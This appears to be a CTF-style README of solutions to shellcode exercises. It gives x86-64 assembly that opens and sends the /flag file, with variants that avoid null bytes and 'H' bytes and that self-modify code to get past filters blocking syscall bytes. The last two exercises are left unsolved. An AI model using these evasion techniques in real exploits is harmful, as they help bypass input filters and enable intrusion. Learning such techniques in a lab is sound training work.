 # Shellcode exercises
To compile and give solution:
```
gcc -nostdlib -static -o file file.s
objcopy --dump-section .text=RawFile file
cat RawFile | /challenge/level_x
```
Before each source code:
```
.intel_syntax noprefix
.global _start
_start:
```
Base shellcode:  
```
mov     rbx, 0x00000067616c662f
push    rbx
mov     rax, 2
mov     rdi, rsp
mov     rsi, 0
syscall

mov     rdi, 1
mov     rsi, rax
mov     rdx, 0
mov     r10, 1000
mov     rax, 40
syscall
```

## ex 1
## ex 2
## ex 3
+ the shellcode must have NO null bytes
```
mov     rbx, 0x67616c662f111111
shr     rbx, 24
push    rbx

xor	rax, rax
inc     rax
inc     rax		                # rax = 2
mov     rdi, rsp	            # rdi = address of /flag
xor     rsi, rsi	            # rsi = 0
xor	rdx, rdx	                # rdx = 0
syscall			                # open

xor     rdi, rdi
inc     rdi		                # rdi = 1
mov     rsi, rax	            # rsi = rax (return value of open)
xor     rdx, rdx	            # rdx = 0
mov     r10w, 1000	            # r10 = 1000
xor     rax, rax
mov     al, 0x28	            # rax = 40
syscall			                # sendfile
```
## ex 4
+ the shellcode must have NO 'H' bytes
```
mov     r10, 0x00000067616c662f
push    r10

push    2
pop     rax             # rax = 2
push    rsp
pop     rdi             # rdi = rsp
push    0
pop     rsi             # rsi = 0
push    0
pop     rdx             # rdx = 0
syscall                 # open

push    1
pop     rdi             # rdi = 1
push    rax
pop     rsi             # rsi = rax (return value of open)
push    0
pop     rdx             # rdx = 0
mov     r10, 1000       # r10 = 1000
push    40
pop     rax             # rax = 40
syscall                 # sendfile
```

## ex 5
+ the shellcode must have NO syscalls
+ forbidden byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), 80cd (`int`)
```
mov     rbx, 0x00000067616c662f
push    rbx
mov     rax, 2
mov     rdi, rsp
mov     rsi, 0
inc     BYTE PTR [rip]
.word   0x050e

mov     rdi, 1
mov     rsi, rax
mov     rdx, 0
mov     r10, 1000
mov     rax, 40
inc     BYTE PTR [rip]
.word   0x050e
```

## ex 6
+ the shellcode must have NO syscalls
+ forbidden byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), 80cd (`int`)
+ removing write permissions from first 4096 bytes of shellcode  
same as 5, but add 4096 nops before actual code

## ex 7
+ can't use stdin, stdout, stderr  
???

## ex 8
+ reading 0x12 bytes from stdin
+ removing write permissions from first 4096 bytes of shellcode  
???
